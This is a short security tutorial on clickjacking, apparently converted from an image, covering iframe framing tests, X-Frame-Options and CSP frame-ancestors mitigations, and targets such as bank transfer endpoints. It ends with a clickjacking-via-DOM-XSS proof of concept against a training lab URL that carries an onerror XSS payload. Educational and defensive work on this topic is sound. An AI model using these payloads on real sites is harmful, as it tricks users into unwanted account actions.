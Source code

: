 Here's the provided text converted into proper Markdown format for a writeup:

### Simple Clickjacking Vulnerability

Below is an example of HTML code demonstrating a simple clickjacking vulnerability:

```html
<html>
<h3>This is my web page.</h3>
<iframe src="https://www.example.com" width="500" height="500"></iframe>
<p>If this window is not blank, the iframe source URL can be framed!</p>
</html>
```

If response headers like `X-Frame-Options: DENY` or `X-Frame-Options: SAMEORIGIN` are present, clickjacking cannot be exploited.

### CSP Mitigation for UI Redressing

Content Security Policy (CSP) can be used to mitigate UI redressing attacks. Examples of CSP policies that can be used to prevent clickjacking are:

- `Content-Security-Policy: frame-ancestors 'none';`
- `Content-Security-Policy: frame-ancestors 'self';`

### Identifying State-Changing Requests

Look for state-changing requests in the context of a clickjacking vulnerability. Examples of state-changing requests include:

- Changing the password: `bank.example.com/password_change`
- Transferring balance: `bank.example.com/transfer_money`
- Unlinking an external account: `bank.example.com/unlink`

### Clickjacking Code Example

Here is an example of HTML code that demonstrates clickjacking:

```html
<html>
<head>
    <title>Clickjack test page</title>
</head>
<body>
    <p>Web page is vulnerable to clickjacking if the iframe is populated with the target page!</p>
    <iframe src="URL_OF_TARGET_PAGE" width="500" height="500"></iframe>
</body>
</html>
```

### Clickjacking via DOM XSS Proof of Concept

An example of clickjacking via DOM XSS is demonstrated in the code below:

```html
<style>
    iframe {
        position: relative;
        width: $width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position: absolute;
        top: $top_value;
        left: $side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

Please note that nowadays, clickjacking vulnerabilities are not typically accepted by Bug Bounty platforms, but they can still be used in combination with other vulnerabilities to create a more significant impact.
